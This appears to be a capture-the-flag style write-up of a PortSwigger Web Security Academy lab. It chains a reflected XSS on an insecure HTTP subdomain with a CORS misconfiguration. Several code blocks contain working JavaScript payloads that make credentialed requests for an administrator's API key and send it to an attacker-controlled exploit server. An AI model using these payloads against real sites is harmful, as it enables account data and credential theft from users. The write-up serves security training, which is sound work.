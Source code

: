 
# 10 - CORS vulnerability with trusted insecure protocols

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Hint: If you could man-in-the-middle attack (MITM) the victim, you could use a MITM attack to hijack a connection to an insecure subdomain, and inject malicious JavaScript to exploit the CORS configuration. Unfortunately in the lab environment, you can't MITM the victim, so you'll need to find an alternative way of injecting JavaScript into the subdomain.

---------------------------------------------

Reference: https://portswigger.net/web-security/cors





![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/1.png)
![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/2.png)

---------------------------------------------

Generated link: https://0a0900840416f0db818ac0da00ca0002.web-security-academy.net/


We find the endpoint /accountDetails:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/3.png)

There is a button to check the stock which opens a popup with the value:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/4.png)

We find a XSS here:

```
GET /?productId=<script>alert(1)</script>&storeId=1 HTTP/1.1
```





![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/5.png)
![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/6.png)

The url is the following one, a subdomain (stock) which uses HTTP:

```
http://stock.0a0900840416f0db818ac0da00ca0002.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

CORS code from previous lab:

```
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("URL");
        req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
        req.withCredentials = true;
        req.send(null);
        function retrieveKeys() {
            location='/log?key='+this.responseText;
        };
  </script>
  <body>
</html>
```

In one-line:

```
<script>var req = new XMLHttpRequest();var url = ("https://0a1e008d0469f84380c3c126007600c7.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>
```

Added to the XSS exploit:

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>&storeId=1
```

The “+” sign is deleted:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/7.png)

We will change “+” with "%2B

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url %2B "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};</script>&storeId=1
```

Now we get the request in the logs:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/8.png)

Now we will add it to a payload like this so it opens when the message is received:

```
<body onload="window.open('URL')">
```

There are problems with nested quotes and double quotes so I will create a parameter “payload” with the CORS payload and send it to the victim:

```
<html>
<script>
var payload = "var req = new XMLHttpRequest();var url = (\"https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net\");req.onload = retrieveKeys;req.open('GET', url %2B \"/accountDetails\",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};" ;
</script>

<body onload="window.open('http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>'+payload+'</script>&storeId=1')">
</html>
```

We get the information from administrator:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/9.png)

And decode the API key:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/10.png)
